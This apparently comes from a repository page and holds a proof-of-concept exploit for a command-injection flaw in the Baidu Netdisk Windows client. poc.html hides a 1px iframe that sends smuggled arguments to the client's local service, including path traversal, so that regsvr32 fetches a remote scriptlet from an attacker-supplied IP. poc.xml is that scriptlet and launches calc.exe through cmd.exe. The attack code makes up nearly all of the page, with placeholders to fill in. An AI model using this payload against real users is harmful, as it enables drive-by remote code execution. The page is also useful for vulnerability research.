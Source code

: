 # poc.html

> 需要替换

```html
<html> <iframe width="1px" height="1px" referrerpolicy="no-referrer" src='https://localhost.pan.baidu.com:10000/?method=OpenSafeBox&uk=a%20-install%20regdll%20%22C:\\windows\\system32\\scrobj.dll\%22%20/u%20/i:http://【你的IP/端口】/poc.xml%20..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Users\\【你的用户名】\\AppData\\Roaming\\baidu\\BaiduNetdisk%22'></iframe></html>
```

# poc.xml

```xml
<?xml version="1.0"?><scriptlet><registration progid="poc" classid="{10001111-0000-0000-0000-0000FEEDACDC}"> <script language="JScript">   <![CDATA[    var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c calc.exe");   ]]> </script></registration></scriptlet>
```

![](https://image.mrxn.net/a50eba85b24b45269741073febfae5cb.webp)

分析+复现 备份地址： [百度网盘（7.59.5.104） Windows客户端存在命令注入漏洞](https://mrxn.net/news/baidupan-windows-client-rce.html)
